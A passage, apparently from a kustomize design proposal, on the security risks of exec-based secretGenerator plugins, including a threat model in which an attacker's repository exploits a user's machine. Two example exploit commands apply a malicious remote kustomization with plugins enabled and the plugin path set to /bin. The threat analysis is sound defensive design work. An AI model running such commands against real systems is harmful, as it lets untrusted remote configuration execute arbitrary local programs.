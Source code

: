 Output:

```bash
secretGenerator plugins used, but plugins not enabled.  To enable plugins for trusted sources, specify --enable-kust-plugins.
secretGenerator plugins that will be run with --enable-kust-plugins:
$XDG_CONFIG_HOME/kustomize/plugins/builtin/my-exec-plugin anotherAg yetAnotherARg
```

## Risks and Mitigations

### Security

**Risk:** Chuck is able to exploit this feature to do something bad on Alice's machine

Required steps to exploit:

- Alice executes (via `-k` or `kustomize`) a malicious `kustomization.yaml`
  - Alice does *not* run *without* enabling plugins with `--enable-kust-plugins` to see which
    plugins will be run and with which values.
- Alice opted-in to enable plugins by providing the flag `--enable-kust-plugins`
- Alice or her organization installed the targeted SecretGenerator to `$XDG_CONFIG_HOME/kustomize/plugins/kvSources`
  or another location she provided with `--kust-plugin-path=<path-including-exploitable-binary>`
- The specified SecretGenerator must be exploitable
  - Simple transformation functions would not be exploitable.
  - e.g. A command like `cat` would not be possible for Chuck to exploit in a meaningful way.

Example Exploit Commands:

In kustomize:

```sh
# User enables the plugin and allows it to exec sh
$ kustomize build https://github.com/chuck/maliciousapp --enable-kust-plugins --kust-plugin-path=/bin
```

In kubectl:

```sh
# User enables the plugin and allows it to exec sh
$ kubectl apply -k https://github.com/chuck/maliciousapp --enable-kust-plugins --kust-plugin-path=/bin
```

Analysis:

This is a low risk profile.  Alice has to: kustomize a malicious kustomization file,
explicitly enable plugins as command line arguments, and install an exploitable plugin to
exploit the plugin system.

By default kustomize will not-execute the plugins, and print out which plugins were specified
with their arguments.

## Alternatives Considered
